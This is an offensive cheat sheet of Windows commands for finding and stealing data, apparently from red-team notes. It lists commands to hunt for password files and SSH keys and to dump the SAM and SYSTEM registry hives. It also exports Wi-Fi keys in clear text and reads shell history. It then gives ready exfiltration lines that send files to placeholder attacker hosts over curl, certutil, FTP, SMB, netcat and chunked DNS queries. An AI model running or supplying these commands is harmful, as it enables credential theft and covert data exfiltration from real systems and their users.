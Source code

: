 # Data Collection

#### File System Search

Search for Configuration Files:

```
dir C:\*.conf /s
```

Search for Log Files:

```
dir C:\*.log /s
```

Search for Files with "password" in the Name:

```
dir C:\*password* /s
```

Search for SSH Keys:

```
dir C:\Users\*.ssh /s
```

#### Copying Sensitive Files

Copy File to a Temporary Directory:

```
copy C:\path\to\sensitivefile.txt C:\Temp\sensitivefile_copy.txt
```

Copy System File (e.g., SAM File):

```
copy C:\Windows\System32\config\SAM C:\Temp\SAM_copy
```

Copy Web Server Configuration File:

```
copy C:\inetpub\wwwroot\web.config C:\Temp\webconfig_copy.config
```

#### Archiving Data

Create a ZIP Archive Using Batch Scripting (Requires third-party `zip` utility):

```
zip -r C:\Temp\sensitive_data.zip C:\Temp\sensitivefile_copy.txt
```

#### Gathering Credentials

Extract Passwords from Configuration Files:

```
findstr /i "password" C:\inetpub\wwwroot\web.config
```

Read Command History (CMD History):

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Dump Local SAM Database (Requires SYSTEM Privileges):

```
reg save HKLM\SAM C:\Temp\SAM_dump.hiv
reg save HKLM\SYSTEM C:\Temp\SYSTEM_dump.hiv
```

# File Obfuscation and Stealth Techniques

#### File Encryption (Using `cipher` Utility)

Encrypt a Directory:

```
cipher /e /s:C:\Temp
```

#### Data Encoding (Base64)

Base64 Encode a File Using `certutil`:

```
certutil -encode C:\Temp\sensitivefile_copy.txt C:\Temp\encoded_file.txt
```

#### Fileless Data Exfiltration

Send Data to a Remote Server Using `curl` (if available):

```
curl -X POST -d @C:\Temp\sensitivefile_copy.txt http://<remote_ip>/upload
```

# Data Exfiltration via Standard Protocols

#### HTTP/HTTPS

Upload Data via HTTP POST:

```
certutil -urlcache -split -f http://<remote_ip>/uploadfile C:\Temp\sensitivefile_copy.txt
```

#### FTP

Exfiltrate Files Using FTP:

```
ftp -s:ftp_commands.txt
```

Content of `ftp_commands.txt`:

```
open <remote_ip>
username
password
put C:\Temp\sensitivefile_copy.txt
bye
```

#### SMB

Copy Data to a Remote SMB Share:

```
net use X: \\<remote_ip>\share /user:<username> <password>
copy C:\Temp\sensitivefile_copy.txt X:\
net use X: /delete
```

#### DNS

Exfiltrate Data Using DNS Queries:

```
nslookup -type=txt <data>.<attack_domain>
```

# Data Exfiltration via Public Services

#### Email

Send Email with Attachment Using `blat` (Third-party utility):

```
blat -to victim@example.com -subject "Exfiltrated Data" -body "Data in attachment" -attach C:\Temp\sensitivefile_copy.txt -server <smtp_server> -u <username> -pw <password>
```

# Data Exfiltration via SQL Databases

#### SQL Server (MSSQL)

Exfiltrate Data Using SQLCMD (Requires SQLCMD utility):

```
sqlcmd -S <server_ip> -U <username> -P <password> -Q "SELECT * FROM <table_name>" -o C:\Temp\mssql_data.txt
```

#### MySQL

Exfiltrate Data Using MySQL Command Line (Requires `mysql` utility):

```
mysql -h <server_ip> -u <username> -p<password> -D <database_name> -e "SELECT * FROM <table_name>" > C:\Temp\mysql_data.txt
```

# Data Exfiltration via Physical Media

#### USB Drive Exfiltration

Automatically Copy Data to USB When Inserted:

```
for /f "tokens=2 delims=:" %i in ('wmic volume get driveletter^, label ^| findstr USB') do copy C:\Temp\sensitivefile_copy.txt %i:\
```

# Data Exfiltration via Wireless

#### Wi-Fi Networks

Export Wi-Fi Profiles and Exfiltrate:

```
netsh wlan export profile folder=C:\Temp key=clear
```

#### Bluetooth

Exfiltrate Data via Bluetooth (Requires `btsend` or `obexftp` utility):

```
btsend <target_mac> C:\Temp\sensitivefile_copy.txt
```

# Data Exfiltration via Non-Standard Protocols

#### Netcat (if available)

Send Data Over Netcat:

```
type C:\Temp\sensitivefile_copy.txt | nc <attack_ip> <attack_port>
```

#### Covert DNS Exfiltration

Exfiltrate Data via DNS in Chunks:

```
for /f "delims=" %i in ('certutil -encode C:\Temp\sensitivefile_copy.txt') do nslookup %i.<attack_domain>
```
